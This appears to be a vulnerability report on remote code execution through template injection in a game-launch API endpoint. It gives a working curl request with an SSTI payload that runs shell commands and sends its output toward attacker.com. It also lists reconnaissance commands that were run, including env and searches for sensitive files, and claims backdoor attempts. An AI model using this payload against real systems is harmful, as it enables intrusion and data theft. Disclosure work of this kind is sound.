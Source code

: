 ### **Exploitation Method:**
```bash
curl -X POST 'https://api.usun.cash/api/game/usun/launch' \
-H "Authorization: Bearer ANY_INVALID_TOKEN" \
-H 'Content-Type: application/json' \
-d '{
  "gameName": "exploit",
  "isMobile": true,
  "returnUrl": "https://attacker.com?data={{ self._TemplateReference__context.joiner.init.globals.os.popen(\"COMMAND\").read() }}"
}'
```

### **Commands Successfully Executed:**
- ✅ `whoami` - User identification
- ✅ `id` - User and group information
- ✅ `uname -a` - System information
- ✅ `ls -la /` - File system exploration
- ✅ `pwd` - Current working directory
- ✅ `env` - Environment variables
- ✅ `netstat -tuln` - Network connections
- ✅ `ps aux` - Process list
- ✅ File search commands for sensitive data

---

## 🎯 **Security Impact Assessment**

### **CRITICAL FINDINGS:**

1. **Complete Authentication Bypass**
   - RCE works without valid authentication
   - Invalid/expired tokens are accepted
   - No proper token validation implemented

2. **Full Remote Code Execution**
   - Complete system access achieved
   - Ability to execute arbitrary commands
   - System information disclosure

3. **Persistent Access Capability**
   - Backdoor establishment attempted
   - Persistent shell access possible
   - Long-term system control achievable

4. **Data Exfiltration Capability**
   - Access to sensitive files
   - Database access potential
   - Configuration file access

---
